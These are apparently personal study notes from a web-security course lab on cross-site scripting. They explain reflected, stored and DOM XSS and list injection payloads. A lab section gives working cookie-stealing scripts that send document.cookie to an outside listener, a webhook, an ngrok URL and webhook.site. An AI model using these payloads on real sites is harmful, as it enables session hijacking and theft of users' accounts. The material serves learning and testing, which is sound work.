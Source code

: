 
Lets us execute Javascript in victims browser and often gives us control over the application for that user

Three main types of XSS

1) Reflected XSS : Script we are trying to inject comes from current HTTP request. We send a request, we get a response and that script is included in the response. So vulnerable script
   included in same request response

2) Stored XSS : Payload stored in database and retrieved later. Has much higher impact

3) DOM XSS : Client side has vulnerable Javascript that trusts vulnerable input instead of having the vulnerability server side

***Keep an eye on the network tab, if no request sent then client side injection, DOM XSS.
If request sent to the server, check if its stored in database or sent back in same request-response, depending on that it might be Stored XSS or Reflected XSS***

---

### Basic XSS Attack

User input being reflected on web page, so maybe Reflected XSS?

Give input and check network tab, nothings fills up network tab, so all things happening client side

 It is all happening on client side. In reflected XSS we get a response from server after entering an input which can be seen in the network tab

```js
<script>prompt(1)</script>
```


this becomes part of the page but we need something to trigger it

```js
<img src onerror="prompt(1)"/>
```


OR


```js
<iframe src onload="alert`1`"/>
```

to forward the user to different location

```js
<img src onerror="window.location.href='targetAddress'">
```

Example :

```js
<img src=x onerror="window.location.href='https://google.com'"> 
```


targetURL also inside quotes

---


### Stored XSS

Server Side Injection so some traffic can be seen in network tab(same for reflected XSS)

Spawn 2 containers

set cookie in one of the containers

to check if cookie is set 1)console.log(document.cookie) 2)Dev tool -> Storage ->Cookie

_**to check for XSS first try HTML injection coz that is likely to work**_

in the input field

```html
<h1>test</h1>
```

HTML injection works, now try for XSS

```js
<script>prompt(1)</script>
```

go in other container and we get prompt so it is stored

to get the cookie of other users

```js
<script>alert(document.cookie)</script>
```


***If http only flag set, JS cannot access the cookies***


---

### Lab Challenge

stored xss

escape \<p> tag first

```js
</p> <script>new Image().src="http://192.168.57.5:4444/?"+ encodeURI(document.cookie);</script>
```

OR

```js
</p><script>var i=new Image; i.src="webHookAddress/?"+document.cookie;</script>
```

We want the cookie to be appended to the URL but as a paramter so, add /?
If we dont do this, cookie will be attached to URL which will change the URL
and we wont we able to capture the request with netcat or webhook

new Image() constructor create an image object it is similar to

document.createElement("image")

The encodeURIComponent() function encodes a URI by replacing each instance of certain characters by one, two, three, or four escape sequences representing the UTF-8

Cookie exfiltration
```js
<script>
fetch('https://webhook', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

```js
fetch(`https://ae1c-43.ngrok-free.app?${encodeURIComponent(document.cookie)}`, { method: "get", headers: new Headers({ "ngrok-skip-browser-warning": true }) })
```

```js
<img src=x onerror=this.src='https://webhook.site/?c='.concat(document.cookie)>
```
---
